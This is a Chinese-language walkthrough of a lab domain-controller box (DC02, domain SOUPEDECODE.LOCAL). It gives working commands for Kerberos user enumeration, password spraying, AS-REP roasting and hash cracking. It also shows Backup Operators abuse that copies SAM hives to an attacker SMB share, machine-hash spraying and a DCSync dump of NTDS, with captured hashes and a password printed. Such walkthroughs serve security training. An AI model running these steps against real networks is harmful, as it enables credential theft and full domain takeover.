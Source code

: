 # DC02

还是`rustscan`扫描

```bash
$ rustscan -a 192.168.1.114 -- -Pn -sC -sV
```

![](./img/DC02-1.png)

类似DC01开放端口，域为`SOUPEDECODE.LOCAL`

`/etc/hosts`添加

```
192.168.1.114 SOUPEDECODE.LOCAL DC01.SOUPEDECODE.LOCAL
```

尝试进行`smb`检测是否存在匿名登录与来宾登录

```bash
$ smbmap -u anonymous -H SOUPEDECODE.LOCAL
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)
[!] Something weird happened on (192.168.1.114) Error occurs while reading from remote(54) on line 1015
[*] Closed 1 connections
```

## Kerberos域用户枚举

利用常见用户名作为字典，使用[kerbrute](https://github.com/ropnop/kerbrute)对`Kerberos`身份验证来枚举域中可能存在的用户

```bash
$ kerbrute userenum -d SOUPEDECODE.LOCAL -t 50 --dc DC01.SOUPEDECODE.LOCAL ~/Desktop/secs/tools/dict/SecLists/Usernames/xato-net-10-million-usernames.txt -o users.txt
```

![](./img/DC02-2.png)

提取用户名并转为小写

```bash
$ cat users.txt | grep '@' | cut -d ' ' -f8 | cut -d '@' -f1 | tr 'A-Z' 'a-z' > users2.txt
```

## 密码喷涂

尝试利用用户名作为密码进行密码喷涂

`--no-bruteforce` 禁用暴力破解尝试

`--continue-on-success` 在成功验证某个用户名和密码后，程序继续运行，不会因为一个成功的验证就停止所有后续操作

```bash
$ crackmapexec smb SOUPEDECODE.LOCAL -u users2.txt -p users2.txt --no-bruteforce --continue-on-success
```

![](./img/DC02-3.png)

## AS-REP Roasting

### rid枚举域内的其他用户

```bash
$ crackmapexec smb SOUPEDECODE.LOCAL -u 'charlie' -p 'charlie' --rid-brute > domain_users.txt
```

导出用户名

```bash
$ cat domain_users.txt | cut -d '\' -f2 | cut -d ' ' -f1 > domain_users2.txt
```

### 枚举禁用kerberos域认证的用户

```bash
$ python3 GetNPUsers.py SOUPEDECODE.LOCAL/  -dc-ip 192.168.1.114 -no-pass -usersfile ~/Downloads/domain_users2.txt | grep -v '[-]'

$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:e7af19ace3789d5617fa213a0d465783$483e5b53f8c0024a2c2e2d0182404b3d425644354a4e0fd73b82a5254458d579b8277647fd4abcfd86c14d1752d45e77ed1bbd58385420049b3a57f2b8d856f8cc0e788a939bbb0b1ed72e3a737dc6d4e39c7fcee28e0e098e5e60b98fb936112815e62c64cbfec1000625c35cb292d84a76bc72a21a0e47d47e944367bc7a766c869a542710ae96bcb0c20fcf51f10e7b10cf52ec686c2837fe799a00c7c5ba2b67a455c5ed3cf1302a925a8f3bf692ef67ca4036730fdf430647c111de6c4045594d1b02ac55012350b38006ab9ee2540849ed4ac77f83e08817c61cdaea07b27c63e2d26af7a39889b16aae9a157a9d84872a1087
```

### 破解hash

```bash
$ hashcat -a 0 -m 18200 '$krb5asrep$23$zximena448@SOUPEDECODE.LOCAL:e7af19ace3789d5617fa213a0d465783$483e5b53f8c0024a2c2e2d0182404b3d425644354a4e0fd73b82a5254458d579b8277647fd4abcfd86c14d1752d45e77ed1bbd58385420049b3a57f2b8d856f8cc0e788a939bbb0b1ed72e3a737dc6d4e39c7fcee28e0e098e5e60b98fb936112815e62c64cbfec1000625c35cb292d84a76bc72a21a0e47d47e944367bc7a766c869a542710ae96bcb0c20fcf51f10e7b10cf52ec686c2837fe799a00c7c5ba2b67a455c5ed3cf1302a925a8f3bf692ef67ca4036730fdf430647c111de6c4045594d1b02ac55012350b38006ab9ee2540849ed4ac77f83e08817c61cdaea07b27c63e2d26af7a39889b16aae9a157a9d84872a1087' ~/Desktop/secs/tools/dict/rockyou.txt
```

![](./img/DC02-4.png)

### bloodhound

```bash
$ bloodhound-python -d SOUPEDECODE.LOCAL -u zximena448 -p internet --zip -c all -dc DC01.SOUPEDECODE.LOCAL -ns 127.0.0.1
```

![](./img/DC02-5.png)

![](./img/DC02-6.png)

## 获取SAM

### 远程备份SAM

可以看到`ZXIMENA448`属于`BACKUP OPERRATORS`组的成员。

此组可以备份存储凭据的`SAM`数据库。但由于该用户无法登录`DC01`，我们用`Impacket`工具远程备份此数据库。我们需要先启动一个`SMB`服务器，然后将`SAM`数据库备份从服务器上传到我们的攻击机。

```bash
$ python3 smbserver.py -smb2support share .
```

设置`SMB`服务器后，我们利用`impacket-reg`工具远程备份SAM注册表项。

`192.168.1.93`为本机`ip`

```bash
$ python3 reg.py -dc-ip 192.168.1.114 SOUPEDECODE.LOCAL/'zximena448':'internet'@192.168.1.114 backup -o '\\192.168.1.93\share'
```

![](./img/DC02-7.png)

### 转储SAM

```bash
$ python3 secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
```

![](./img/DC02-8.png)

发现`Administrator`的`hash`和机器`hash`，使用`Administrator`登录失败了,但是还有机器账户的`hash ($MACHINE.ACC)`

```
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9b0ceb3f3395745ab0d12a838cb10f4b
```

### 利用机器hash进行密码喷射

进行密码喷射之前，我们还需要获取目标的所有机器账户列表

我们可以利用`Bloodhood`收集的压缩包里面的`computer.json`文件获取

```bash
# 提取机器账户名
$ cat 20250421154045_computers.json | jq .  | grep samaccountname | cut -d '"' -f4 > machines.txt
# 使用crackmapexec进行密码喷射
$ crackmapexec smb DC01.SOUPEDECODE.LOCAL -u machines.txt  -H 9b0ceb3f3395745ab0d12a838cb10f4b | grep -v '[-]'
```

![](./img/DC02-11.png)

## DCSync攻击

DC01$ 是 Administrator 组的成员，我们可以使用此组成员身份权限对域控制器执行 [DCSync](https://c1trus.top/24-渗透/渗透姿势库/dcsync.html#_0) 攻击。

>  在Enterprise Admin 组 也可以进行DCSync攻击能够执行能够执行 replication synchronization 权限 也可以

```bash
$ crackmapexec smb DC01.SOUPEDECODE.LOCAL -u 'DC01$' -H 9b0ceb3f3395745ab0d12a838cb10f4b --ntds>ntds.txt
```

--ntds 获取`NTDS.dit`文件的内容这个文件是 Windows 域控的 Active Directory 数据库，包含了所有域账户的信息，包括密码哈希、Kerberos 密钥等敏感信息

